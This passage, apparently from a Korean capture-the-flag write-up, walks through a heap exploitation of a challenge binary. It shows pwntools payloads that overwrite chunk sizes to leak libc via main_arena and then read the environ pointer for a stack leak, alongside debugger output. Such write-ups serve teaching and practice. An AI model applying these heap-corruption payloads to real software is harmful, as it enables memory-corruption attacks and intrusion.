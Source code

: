``` bash
0x555555559640: 0x000055500000c0e9      0x2da0f37bfd770960
```
`[0, 2, 2]`의 chunk size를 `0x421`로 바꿔 `free()`시킨 후 `main_arena` 주소가 쓰이면 `[0, 2, 1]->*content`를 `[0, 2, 2]` 주소로 바꿔 출력을 하게끔 시나리오를 구성했다.

따라서 chunk size overwrite와 `[0, 2, 1]->*content`를 바꾸는 것을 고려해서 payload를 다음과 같이 작성했다.

이 때 다른 chunk들을 건들이면 `free()`에서 에러가 발생해 구조를 그대로 유지하도록 작성하였다.
``` python
    # overwrite chunk_size of [0, 2, 2] ("CCCC")
    payload = b"A" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x21)
    payload += b"B" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x21)
    payload += p64(0x10) + p64(heap + 0x600)    # set [0, 2, 1]->content to [0, 2, 2]
    payload += p64(0) + p64(0x21)
    payload += b"C" * 0x10
    payload += p64(0) + p64(0x51)
    payload += b"\x00" * 0x40
    payload += p64(0) + p64(0x421)
    edit(s, 'u', [0, 2, 0], 'e', payload)
```
이제 두 번째, 세 번째 조건을 맞추기 위한 payload는 다음과 같다.
``` python
    # align top chunk; nextchunk of 0x420 chunk should not be top chunk
    edit(s, 'u', [0, 2, 3], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 0], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 1], 'a', 0x10)
    edit(s, 'u', [0, 2, 3, 2], 'a', 0x5)
    edit(s, 'u', [0, 2, 3, 3], 'a', 0x1)        # next_chunk
```
`[0, 2, 3, 2]`까지만 객체들을 생성하면 `[0, 2, 2]`의 `next_chunk`가 top chunk가 되므로 `[0, 2, 3, 3]`을 꼭 생성해주어야 한다.
``` bash
Current: <ARRAY(4)>
[00] <S> AAAAAAAAAAAAAAAA
[01] <S> \xe0\xac\xfa\xf7\xff\x7f
[02] <EMPTY>
[03] <ARRAY(16)>
index: 
```

### Stack leak
Libc 주소가 있으니 `environ` 변수를 이용해서 stack leak이 가능하다.
``` python
    # arbitrary read (environ)
    payload = b"A" * 0xe0
    payload += p64(0x10) + p64(libc + lib.symbols['environ'])
    edit(s, 'u', [0, 2, 0], 'e', payload)
```
앞에서는 chunk 할당과 해제를 하기 때문에 chunk 구조를 맞춰서 payload를 작성했는데, 이제는 그럴 필요가 없으니 `[0, 2, 1]`과의 offset만 잘 맞춰주면 leak이 가능하다.
